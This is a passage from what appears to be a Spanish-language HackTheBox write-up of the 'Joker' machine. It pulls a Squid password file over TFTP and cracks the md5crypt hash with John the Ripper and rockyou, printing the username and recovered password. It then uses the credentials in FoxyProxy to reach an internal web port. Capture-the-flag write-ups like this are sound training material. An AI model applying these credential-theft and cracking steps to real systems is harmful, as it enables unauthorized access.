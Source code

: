 ```null
coredump_dir /var/spool/squid
refresh_pattern ^ftp:		1440	20%	10080
refresh_pattern ^gopher:	1440	0%	1440
refresh_pattern -i (/cgi-bin/|\?) 0	0%	0
refresh_pattern (Release|Packages(.gz)*)$      0       20%     2880
refresh_pattern .		0	20%	4320
```

Me puedo descargar un archivo con contraseñas

```null
tftp> get /etc/squid/passwords
```

```null
cat passwords
kalamari:$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0
```

Está hasheada, pero se puede crackear con ```john```

```null
john -w:/usr/share/wordlists/rockyou.txt passwords
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihateseafood     (kalamari)     
1g 0:00:00:28 DONE (2023-02-17 11:19) 0.03552g/s 260001p/s 260001c/s 260001C/s ihateticmark..ihatepwc
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Añado las credenciales a la configuración del ```FoxyProxy```

<img src="/writeups/assets/img/Joker-htb/4.png" alt="">

Ya tengo alcance con el puerto 80 internamente abierto
